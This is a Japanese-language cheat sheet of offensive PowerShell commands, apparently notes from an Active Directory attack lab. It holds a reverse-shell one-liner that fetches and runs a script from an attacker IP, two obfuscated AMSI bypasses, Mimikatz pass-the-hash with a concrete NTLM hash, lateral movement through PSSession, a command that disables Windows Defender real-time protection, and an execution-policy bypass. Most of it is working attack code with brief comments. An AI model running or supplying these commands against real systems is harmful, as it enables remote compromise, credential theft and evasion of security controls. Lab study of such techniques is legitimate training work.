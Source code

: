 ## ReverseShell
- 場合によってFireWallを無効化する必要がある。
```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/InvokePowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443

or

powershell.exe iex (iwr -UseBasicParsing http://172.16.100.X/Invoke-PowerShellTcp.ps1);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

---
## AMSI Bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

- ほかのやりかった
```
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields("NonPublic,Static")
Foreach($e in $d) {if ($e.Name -like "*nitFail*") {$f=$e}}
$f.SetValue($null,$true)
```

---
## ArgSplit.bat
エンコードをしてcmdにコピペをする。

---
## Import-Module(?)
```
PS C:\Windows\system32> . C:\AD\Tools\Invoke-Mimi.ps1 
```
---
## $sess = New-PSSession -ComputerName dcorp-dc
CLIベースでほかの端末にアクセスできるコマンドである。
ただ前提として以下のようにしてscvadminでcmdを立ち上げる必要がある。
```
C:\Windows\System32> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
[snip] 
C:\Windows\System32>. C:\AD\Tools\Invoke-Mimi.ps1 
C:\Windows\System32> Invoke-Mimi -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:cmd.exe"' 
[snip] 
```
で、新しく立ち上がったコマンドプロンプト上で以下のコマンドを実行すれば成功するはず。
```
PS C:\AD\Tools> $sess = New-PSSession -ComputerName dcorp-dc 
PS C:\AD\Tools> Enter-PSSession $sess
```
---
## Defender無効化
以下のコマンドはWindows Defenderのリアルタイム保護を無効化する。
```
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 
'ProtectionManagement'.
```
- Set-MpPrefernce:WindowsDefenderの設定を変更するためのコマンド
- **-DisableRealtimeMonitoring**:リアルタイム保護を無効にするオプション。
	- $trueは無効化にする。
	- $falseは有効化する。
---
## Powershell Script Bypass
```
PS C:\WINDOWS\system32> powershell -ep bypass 
```